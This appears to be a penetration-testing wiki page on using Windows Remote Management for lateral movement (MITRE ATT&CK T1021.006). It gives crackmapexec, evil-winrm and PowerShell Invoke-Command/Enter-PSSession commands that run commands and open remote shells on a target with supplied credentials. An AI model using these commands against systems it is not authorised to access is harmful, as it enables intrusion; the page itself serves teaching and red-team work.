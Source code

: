 ```yaml
---
description: >-
  MITRE ATT&CK™  Remote Services: Windows Remote Management   - Technique
  T1021.006
---
```


# WinRM

## Theory

Adversaries may use [Valid Accounts](https://attack.mitre.org/techniques/T1078) to interact with remote systems using Windows Remote Management (WinRM). The adversary may then perform actions as the logged-on user.

WinRM is the name of both a Windows service and a protocol that allows a user to interact with a remote system (e.g., run an executable, modify the Registry, modify services). It may be called with the `winrm` command or by any number of programs such as PowerShell. WinRM can be used as a method of remotely interacting with [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047).

## Practice

### Execute Remote Commands

{% tabs %}
{% tab title="UNIX-like" %}
We can use [crackmapexec](https://github.com/mpgn/CrackMapExec) to remotely execute a command on the target over WinRM.

```bash
#Execute command
crackmapexec winrm <IP> -u <user> -p <password> -x "whoami"

#Execute PowerShell command
crackmapexec winrm <IP> -u <user> -p <password> -x "$(Get-WMIObject -class Win32_ComputerSystem | select username).username"
```
{% endtab %}

{% tab title="Windows" %}
We can use the PowerShell `Invoke-Command` cmdlet to remotely execute a command on the target over WinRM.

```powershell
#Create Powershell PSCredential object
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

#Invoke command remotly
Invoke-Command -Computername <TARGET> -Credential $credential -ScriptBlock {whoami}

#Invoke command remotly from functions of your current PS console (like imported modules)
Invoke-Command -ComputerName <TARGET> -Credential $credential -ScriptBLock ${function:enumeration} [-ArgumentList "arguments"]
```

You may also run scripts using WInRM

```powershell
Invoke-Command -ComputerName <TARGET> -FilePath C:\path\to\script\file -credential $credential
```
{% endtab %}
{% endtabs %}

### Remote shell

{% tabs %}
{% tab title="UNIX-like" %}
[Evil-winrm](https://github.com/Hackplayers/evil-winrm) can be use to obtain a winrm powershell session

```bash
evil-winrm -u <user> -p <password> -i <IP>
```
{% endtab %}

{% tab title="Windows" %}
We can use Powershell's `Enter-PSSession` cmdlet to start an interactive session with a remote computer.

```powershell
#Create Powershell PSCredential object
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

# Start a remote powershell session
Enter-PSSession -ComputerName <TARGET> -Credential $credential
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://attack.mitre.org/techniques/T1021/006/" %}

